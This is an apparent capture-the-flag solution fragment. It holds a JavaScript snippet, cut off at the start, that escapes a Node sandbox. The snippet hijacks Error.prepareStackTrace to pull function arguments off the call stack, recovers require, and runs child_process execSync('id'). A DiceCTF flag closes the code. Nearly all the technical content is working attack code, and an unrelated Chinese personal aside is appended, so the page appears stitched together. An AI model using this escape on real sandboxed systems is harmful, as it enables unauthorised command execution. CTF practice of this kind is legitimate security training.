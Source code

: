 ```js
		this.stack
	} finally {
		Error.prepareStackTrace = oldStackTrace
	}
}
function trigger() {
	const err = new CustomError()
	console.log(err.stack[0])
	for (const x of err.stack) {
		const fn = x.getFunction()
		console.log(String(fn).slice(0, 200))
		console.log(fn?.arguments)
		console.log('='.repeat(40))
		if ((args = fn?.arguments)?.length > 0) {
			req = args[1]
			console.log(req('child_process').execSync('id').toString())
		}
	}
}
trigger()
// dice{who_needs_builtins_when_you_have_arguments}

```

------

人在家中坐，开学延期天上来

不能继续摆了，我他妈学爆！！！！！！
